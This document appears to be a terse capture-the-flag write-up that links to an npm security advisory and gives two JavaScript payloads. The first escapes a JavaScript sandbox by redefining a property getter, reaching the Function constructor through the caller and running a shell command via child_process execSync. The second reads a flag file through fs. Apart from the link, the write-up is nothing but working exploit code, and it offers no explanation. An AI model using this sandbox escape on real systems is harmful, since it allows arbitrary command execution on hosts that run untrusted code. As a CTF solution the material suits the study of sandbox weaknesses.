 # WRITEUP

https://www.npmjs.com/advisories/1033


```javascript
((() => { 
const targetKey = Object.keys(this)[0]; 
Object.defineProperty(this, targetKey, { 
get: function() { 
return arguments.callee.caller.constructor( 
\"return global.process.mainModule.require('child_process').execSync('cat flag.txt').toString()\" 
)(); 
} 
}); 
}))()
```

```javascript
(function(){return fs.readFileSync('flag.txt', {encoding:'utf8', flag:'r'})}())
```

